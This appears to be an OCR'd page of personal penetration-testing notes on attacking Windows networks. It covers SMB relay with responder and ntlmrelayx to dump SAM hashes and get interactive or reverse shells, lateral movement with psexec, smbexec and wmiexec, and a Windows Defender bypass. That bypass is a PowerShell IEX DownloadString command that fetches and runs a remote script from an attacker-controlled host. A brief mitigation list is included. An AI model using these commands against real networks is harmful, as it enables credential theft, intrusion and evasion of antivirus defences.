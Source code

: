             #SMB Relay
                instead of cracking hashes from `responder` just relay it
                to another mechine with:
                    SMB signing disabled and hash user has admin rights
                    on tgt mechine.
                When someone makes a bad DNS request, `responder` captures
                    the hash and `ntlmrelayx` relays it to our target
                    with SMB running to get a dump of the `SAM hashes`
                    which is the shadow file for windows (local users)
                in `responder` turn `SMB` and `HTTP` off
                    `/usr/share/responder/Responder.conf`
                        `nmap --script=smb2-security-mode.nse -p445 <ip/cidr>`
                        server smb sign and required is default but host's
                        are not.so we want to add any host or server with
                        smb sign on but no req to `targets.txt`
                Set up our SMB relay
                    `python ntlmrelayx.py -tf targets.txt -smb2support`
                When user fat fingers a connection our responder will try
                    to get us creds and if the users an admin we get the 
                    SAM file (with all hashes like ect/shadow). Works best
                    on networks with alot of local admins and/or admins on
                    same box.
                Get a shell this way!
                    `python ntlmrelayx.py -tf targets.txt -smb2support -i`
                        `-i` will get you an interactive smb shell. you will
                        see: `tarted interactive SMB client shell via TCP on 127.0.0.1:11000`
                        then in new tab use nc: `nc 127.0.0.1 11000` to get
                        smb shell.
                        can also get other shells: `-e msfvenom_script.exe`
                        and use metasploit `multihandler` to get a shell
                        `-c <powershell revers shell command>`
                #SMB mitigation strategies
                    enable SMB signing on all devices
                        but will degrade file transfers by 15%
                    disable NTLM authentication
                        if Kerberos stops, windows defaults to NTLM
                    limit domain admins tasks
                        hard to enforce
                    local admin restriction
                        increases service desk tickets
            
            #shell access        
                `psexec` in `metasploit` can use smb creds that you got
                from above. however, it might get caught by windows defender
                `psexec.py <domain>.local/<smbuser>:<smbpass>@<tgt ip>`
                ran from terminal might get you thru
                quieter is to use: `smbexec.py` or `wmiexec.py` with same flags
                as `psexec.py`
                
                #getting around Windows Defender with `smbexec`
                    we can edit `psexec` to change how it uses `cmd.exe`
                    `cmd.exe /Q /c powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.0.2.20:8000/Connectar-Tcp.ps1');`
                    